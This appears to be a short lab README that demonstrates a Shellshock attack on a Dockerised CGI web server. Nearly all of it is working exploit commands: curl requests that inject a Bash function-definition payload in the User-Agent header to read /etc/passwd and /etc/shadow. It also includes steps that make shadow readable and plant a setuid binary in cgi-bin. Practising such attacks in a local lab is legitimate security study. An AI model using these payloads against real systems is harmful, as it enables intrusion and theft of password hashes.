 # Start web server
docker-compose up -d


# Launch the attack
View in a browser: http://127.0.0.1:8080/
curl http://127.0.0.1:8080/cgi-bin/stats
curl http://127.0.0.1:8080/cgi-bin/shell-info
curl http://127.0.0.1:8080/cgi-bin/info.cgi

curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd;'" http://your-ip:8080/cgi-bin/stats
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd;'" http://127.0.0.1:8080/cgi-bin/stats

curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/shadow;'" http://127.0.0.1:8080/cgi-bin/stats
docker exec -it web-server bash
chmod +r /etc/shadow

curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/shadow;'" http://127.0.0.1:8080/cgi-bin/info.cgi


curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd;'" http://127.0.0.1:8080/cgi-bin/shell-info

cd /usr/lib/cgi-bin/
gcc -o show-shadow cat.c
chmod u+s show-shadow
curl -H "user-agent: () { :; }; echo; echo; /usr/lib/cgi-bin/show-shadow" http://127.0.0.1:8080/cgi-bin/info